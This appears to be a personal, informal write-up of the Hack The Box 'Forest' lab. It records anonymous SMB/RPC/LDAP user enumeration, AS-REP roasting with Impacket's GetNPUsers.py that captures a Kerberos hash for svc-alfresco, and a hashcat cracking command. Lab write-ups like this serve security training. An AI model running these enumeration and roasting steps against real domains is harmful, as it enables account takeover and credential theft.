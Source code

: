 Well, it looks like it only has MSRPC and LDAP.

So, time for this site.

https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap

Looks like `rpcclient -U "" -N 10.10.10.161` is successful.

So is this:

    ┌─[vagrant@parrot]─[~]
    └──╼ $crackmapexec smb 10.10.10.161
    SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)


Looks like we have some users:

    ┌─[vagrant@parrot]─[~]
    └──╼ $crackmapexec smb 10.10.10.161 --users
    SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
    SMB         10.10.10.161    445    FOREST           [*] Trying to dump local users with SAMRPC protocol
    SMB         10.10.10.161    445    FOREST           [+] Enumerated domain user(s)
    SMB         10.10.10.161    445    FOREST           htb.local\Administrator                  Built-in account for administering the computer/domain
    SMB         10.10.10.161    445    FOREST           htb.local\Guest                          Built-in account for guest access to the computer/domain
    SMB         10.10.10.161    445    FOREST           htb.local\krbtgt                         Key Distribution Center Service Account
    SMB         10.10.10.161    445    FOREST           htb.local\DefaultAccount                 A user account managed by the system.
    SMB         10.10.10.161    445    FOREST           htb.local\$331000-VK4ADACQNUCA           
    SMB         10.10.10.161    445    FOREST           htb.local\SM_2c8eef0a09b545acb           
    SMB         10.10.10.161    445    FOREST           htb.local\SM_ca8c2ed5bdab4dc9b           
    SMB         10.10.10.161    445    FOREST           htb.local\SM_75a538d3025e4db9a           
    SMB         10.10.10.161    445    FOREST           htb.local\SM_681f53d4942840e18           
    SMB         10.10.10.161    445    FOREST           htb.local\SM_1b41c9286325456bb           
    SMB         10.10.10.161    445    FOREST           htb.local\SM_9b69f1b9d2cc45549           
    SMB         10.10.10.161    445    FOREST           htb.local\SM_7c96b981967141ebb           
    SMB         10.10.10.161    445    FOREST           htb.local\SM_c75ee099d0a64c91b           
    SMB         10.10.10.161    445    FOREST           htb.local\SM_1ffab36a2f5f479cb           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxc3d7722           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxfc9daad           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxc0a90c9           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox670628e           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox968e74d           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox6ded678           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox83d6781           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxfd87238           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxb01ac64           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox7108a4e           
    SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox0659cc1           
    SMB         10.10.10.161    445    FOREST           htb.local\sebastien                      
    SMB         10.10.10.161    445    FOREST           htb.local\lucinda                        
    SMB         10.10.10.161    445    FOREST           htb.local\svc-alfresco                   
    SMB         10.10.10.161    445    FOREST           htb.local\andy                           
    SMB         10.10.10.161    445    FOREST           htb.local\mark                           
    SMB         10.10.10.161    445    FOREST           htb.local\santi                          


We can also try to list shared folders:

    smbclient --no-pass -L 10.10.10.161
    (nothing)

Okay, according to guided mode, LDAP allows anonymous authentication. 

    ldapsearch -x -H ldap://10.10.10.161 -b "CN=Users,DC=htb,DC=local"

I'm too stupid to use the CLI, so let's just use jxplorer :)

https://sourceforge.net/projects/jxplorer/files/jxplorer/version%203.3.1.2/jxplorer-3.3.1.2-linux-installer.run/download

Ok. Seems a bit useless. I cheated more, so we're supposed to use Impacet's `GetNPUsers.py`.

According to the cheaty hint, we're looking for users that have Kerberos pre-auth disabled, and this attack is called "AS-REP-Roasting".

    GetNPUsers.py -no-pass -usersfile users.txt -format hashcat -outputfile ASREProastables-hashcat.txt htb.local/ 


    ┌─[vagrant@parrot]─[~/Git/hackthebox/boxes/Forest]
    └──╼ $    GetNPUsers.py -no-pass -usersfile users.txt htb.local/
    Impacket v0.10.1.dev1+20230518.215801.5882b018 - Copyright 2022 Fortra

    [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
    [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
    [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
    [-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
    $krb5asrep$23$svc-alfresco@HTB.LOCAL:b45e930b4c25204fe122147dc17b2aeb$dbce67644cfa76ce9a94b37d3742adcdd804a4750efec47bcfbf3fb3eece83670e770b9e0a02d4ca03e34d0e2ff6a877ad1d60b942a3416073bcbacee06d179e25c8070bc09fa6c443d61024d765fc2de9695cabfd9d4af625f8ebe51b78ea0b02c1ab2dc5f202601888c9b5d65f0ca152e4efb3ecd98a3e0f66b0dcf0d8ec9a4abb611eb38180baa1b1f5027c631a389683a7658d3f9f50cbe11453ce8734adaec28aab55ed38fa1f6bac7f78d8e5fc283fe150f363607056ec24e312143265604d84922a9ea138f6673a587c399a81c4892b524038038d0e636b5112ed46035c1cb07a1ea8
    [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

So! Now we know that the user `svc-alfresco` DOES HAVE `UF_DONT_REQUIRE_PREAUTH` set.

Also, their kerberos hash (If that's what it is) is:

    b45e930b4c25204fe122147dc17b2aeb$dbce67644cfa76ce9a94b37d3742adcdd804a4750efec47bcfbf3fb3eece83670e770b9e0a02d4ca03e34d0e2ff6a877ad1d60b942a3416073bcbacee06d179e25c8070bc09fa6c443d61024d765fc2de9695cabfd9d4af625f8ebe51b78ea0b02c1ab2dc5f202601888c9b5d65f0ca152e4efb3ecd98a3e0f66b0dcf0d8ec9a4abb611eb38180baa1b1f5027c631a389683a7658d3f9f50cbe11453ce8734adaec28aab55ed38fa1f6bac7f78d8e5fc283fe150f363607056ec24e312143265604d84922a9ea138f6673a587c399a81c4892b524038038d0e636b5112ed46035c1cb07a1ea8

Trying again, with this command instead.

    GetNPUsers.py -no-pass -usersfile users.txt -format hashcat -outputfile ASREProastables-hashcat.txt htb.local/ 

Time to hashcat :)

    hashcat -m18200 ASREProastables-hashcat.txt -a 3 /usr/share/wordlists/rockyou.txt
